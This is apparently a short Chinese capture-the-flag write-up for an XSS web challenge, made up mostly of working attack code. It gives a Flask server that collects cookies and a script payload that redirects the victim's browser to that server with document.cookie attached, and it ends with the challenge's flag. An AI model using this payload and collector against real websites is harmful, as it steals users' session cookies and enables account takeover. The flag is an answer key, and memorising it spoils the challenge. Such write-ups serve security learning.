 # 你是什么小饼干

xss攻击获取cookie的python服务器如下所示:

```python
from flask import Flask,request
from waitress import serve
app = Flask(__name__)

@app.route("/",methods=["GET"])
def main():
    cookie = 1
    if request.method == "GET":
        cookie = request.values.get("cookie")
    print(cookie)
    return ''

serve(app,host='0.0.0.0',port=1111)
```

xss需要post内容如下(可用xsscon或直接删除元素得到post对象为"hack"):

```html
<script>window.location.href="http://127.0.0.1:1111/?cookie="+document.cookie</script>
```

flag为`VYctf{X5s_1s_0ur_f1r5t_M4ch1ne_1n_Web}`
